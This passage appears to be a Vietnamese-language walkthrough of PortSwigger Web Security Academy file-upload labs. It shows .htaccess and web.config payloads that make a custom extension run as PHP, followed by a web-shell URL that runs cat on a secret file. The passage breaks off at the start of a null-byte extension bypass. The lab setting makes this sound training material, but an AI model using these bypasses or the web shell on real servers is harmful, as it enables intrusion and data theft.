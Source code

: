 ```
```
- Submit solution

### Web shell upload via extension blacklist bypass
#### Analysis
- Upload `evil.php` như trên và gửi đến **repeater**
- Nhận được:
```
Sorry, php files are not allowed Sorry, there was an error uploading your file.
```

- Cho thấy không cho phép thực thi file `.php`
- Thử các đuôi file có thể thực thi **PHP** khác: `.php5`, `.phtml`, `.shtml`, `.phar`. Không thành công

Ý tưởng: 
- Thay đổi config local, để thực thi 1 file tùy ý
- Một số **web server** cho phép cấu hình riêng theo từng thư mục. Điều này có thể bị lợi dụng nếu bạn upload được file cấu hình độc hại vào thư mục đó.

### Exploit
- Thử tất cả các trường hợp xảy ra khi chưa biết trước được loại `web server` của nó:
    - Trên **Apache**: Tập tin cấu hình theo thư mục: .htaccess
    ```
        AddType application/x-httpd-php .evil
    ```

    - Trên **IIS (Windows Server)**: Sử dụng file web.config
    ```
        <staticContent>
            <mimeMap fileExtension=".evil" mimeType="application x-httpd-php" />
        </staticContent>
    ```

- Upload lại file `evil.php` nhưng đổi **extension** thành **evil.evil**
- Mở file `evil.evil` ở tab mới và tiến hành khai thác
```
https://0acd00a903eca6058378b4200086001b.web-security-academy.net/files/avatars/evil.evil?cmd=cat%20/home/carlos/secret
```
- Submit solution

### Web shell upload via obfuscated file extension
#### Analysis
- Upload `evil.php` như trên và gửi đến **repeater**
- Nhận được:
```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```
- Chỉ cấp nhận file `.jpg` và `.png`
- Ý tưởng: Sử dụng kỹ thuật **null byte** để up file có đuôi `.jpg` hoặc `.png`, khi **web server** xửa lý sẽ bỏ qua phần extension của file ảnh
